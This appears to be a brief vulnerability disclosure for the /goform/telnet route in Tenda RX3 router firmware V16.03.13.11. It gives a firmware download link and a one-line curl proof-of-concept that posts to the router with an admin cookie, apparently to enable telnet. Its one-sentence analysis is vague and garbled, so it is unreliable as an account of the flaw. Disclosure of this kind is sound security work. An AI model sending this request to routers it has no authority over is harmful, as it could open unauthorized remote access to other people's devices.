


| Firmware Name | Firmware Version   | Download Link                                                |
| ------------- | ------------------ | ------------------------------------------------------------ |
| RX3           | V16.03.13.11_multi | https://static.tenda.com.cn/tdeweb/download/RX3/US_RX3V1.0br_V16.03.13.11_multi_TDE01.zip |

## Analysis



An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

## POC

```
curl -i -X POST http://192.168.0.1/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

